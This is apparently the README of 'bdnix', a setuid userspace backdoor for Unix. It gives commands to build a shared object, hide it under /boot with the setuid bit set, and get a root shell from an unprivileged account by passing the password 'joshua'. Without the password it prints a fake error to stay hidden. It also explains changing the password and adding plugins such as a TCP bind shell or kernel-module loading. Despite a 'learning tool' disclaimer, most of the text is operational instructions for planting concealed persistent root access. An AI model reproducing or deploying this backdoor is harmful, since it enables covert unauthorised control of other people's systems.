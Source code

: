  <pre>
      ___           ___           ___                       ___     
     /\  \         /\  \         /\__\          ___        |\__\    
    /::\  \       /::\  \       /::|  |        /\  \       |:|  |   
   /:/\:\  \     /:/\:\  \     /:|:|  |        \:\  \      |:|  |   
  /::\~\:\__\   /:/  \:\__\   /:/|:|  |__      /::\__\     |:|__|__ 
 /:/\:\ \:|__| /:/__/ \:|__| /:/ |:| /\__\  __/:/\/__/ ____/::::\__\
 \:\~\:\/:/  / \:\  \ /:/  / \/__|:|/:/  / /\/:/  /    \::::/~~/~   
  \:\ \::/  /   \:\  /:/  /      |:/:/  /  \::/__/      ~~|:|~~|    
   \:\/:/  /     \:\/:/  /       |::/  /    \:\__\        |:|  |    
    \::/__/       \::/__/        /:/  /      \/__/        |:|  |    
     ~~            ~~            \/__/                     \|__|    
 </pre>

<p>Trivial userspace backdoor for Unix</p>
</p>Emanuele Paiano - nixw0rm@gmail.com</p>

<h6>This is a learning tool, so use it ONLY on your home systems (like 
Desktop PC or Raspberry Pi). I'm not responsable for abuses. 
Use it at your risk!  </h6>                         

------------------
 GETTING STARTED
------------------

1) Open root terminal in current directory and move to bdnix folder
  <pre>
   # cd /path/bdnix
   </pre>
2) From root run 'make' to build binary file
  <pre>
   # make
   </pre>
3) copy created file (i.e. libbd.so) with -p option to a hidden location like /bin, /etc,
<pre>
   # cp -p libbd.so /boot/.libbd.so
   # chmod +sx /boot/.libbd.so
   </pre>       
   and setuid file (chmod +x).


4) logout from server and log in again with unprivileged user. 


5) Run binary with joshua argument to enable backdoor
<pre>
   $ /boot/.libbd.so joshua /bin/sh
   #

   You can see '#': you are root! :)
   </pre>

6) Running without joshua password, you can read a (fake) error:
<pre>
/bin/sh: cannot execute binary file
</pre>

---------------------
 CUSTOMIZE PASSWORD
---------------------

Open settings.h and change default password "joshua"
<pre><code>
#define ARG1 "joshua"
</code></pre>
to "chips"
<pre><code>
#define ARG1 "chips"
</code></pre>
Now recompile backdoor with "make" and test it with new password:
<pre><code>
$ /boot/.libbd.so chips /bin/sh
#
</code></pre>
it works! :)


-----------------
 ENABLE PLUGINS
-----------------
Plugins are .h file in plugins/ folder. Plugins permit to add code portions and
extend bdnix feature (i.e. bind shell on TCP port, load kernel module, etc).
To enable a plugin:

1) Open settings.h include file and search for options like:
<pre><code>
/* PLUGINS */

/* enable rootshell */
#define SHELL 1
</code></pre>       
2) Set 1 to enable, or 0 to disable code.

Example: If you have rootshell disabled and myplugin enabled:
<pre><code>
/* enable rootshell */
#define SHELL 0

/* my plugin */
#define MYPLUGIN 1
</code></pre>    
Your backdoor run MYPLUGIN code and ignore rootshell. You can enable more plugins together: 
they will run in sequential mode. 

For adding or writing custom plugin, read next paragraph.


-----------------------
 WRITE A CUSTOM PLUGIN
-----------------------
1) If you want write your plugin, you should create .h file into plugin using next template:
<pre><code>
int PLUGIN_NAME_init()
{
  //code plugin
}
</code></pre>
and replace PLUGIN_NAME with your plugin's name and write your code between {} in function.  

2) Open bdcode.c and find this code portion into main():
<pre><code>
 #if SHELL == 1
   shell_init(argv[2]);
 #endif
</code></pre>
   and add some lines code:
<pre><code>
 #if SHELL == 1
   shell_init(argv[2]);
 #endif
 #if PLUGIN_NAME == 1
   PLUGIN_NAME_init();
 #endif
</code></pre>
 don't forget to remove PLUGIN_NAME with your plugin's name.

3) Before main(), add these lines:
<pre><code>
#if PLUGIN_NAME == 1
#include "plugin/PLUGIN_NAME.h"
#endif
</code></pre>

and remove PLUGIN_NAME with your plugin's name.

TIPS: you can edit RAW plugin.



----------
 LICENSE
----------
This code is released under GNU/GPL3 terms.
